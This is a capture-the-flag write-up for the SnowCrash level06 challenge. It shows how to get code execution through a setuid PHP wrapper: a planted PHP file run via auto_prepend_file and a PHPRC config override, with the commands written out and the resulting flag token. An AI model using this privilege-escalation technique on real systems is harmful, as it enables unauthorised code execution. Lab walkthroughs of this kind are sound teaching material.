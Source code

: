 # FLAG06

```bash
level06@SnowCrash:~$ ll
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*
```

We scp ```level06``` into our local to put him into ```dogbolt```

```bash
scp -P 4241 level06@localhost:/home/user/level06/level06 level06
```

the bin and a php file would put us to the path of regex but we know an easy vulnerability because the bin have root privilege and execute php.

## Using auto_prepend_file

auto_prepend_file in php.ini specifies a PHP file that PHP will always execute before executing the intended PHP script.

Setting this to /tmp/hack.php ensures your PHP code runs first, allowing arbitrary code execution.

```bash
echo '<?php system("/bin/getflag"); exit; ?>' > /tmp/hack.php
echo "auto_prepend_file=/tmp/hack.php" > /tmp/myphp.ini
```

## PHP configuration override (PHPRC exploit)

PHP uses PHPRC environment variable to override its default configuration file (php.ini).

By setting PHPRC to a custom location (/tmp/myphp.ini), the PHP interpreter used by level06 will read your custom configuration instead of the default one.

```bash
export PHPRC=/tmp/myphp.ini
./level06 
```

Which yields this token-looking token: ```wiok45aaoguiboiki2tuin6ub```
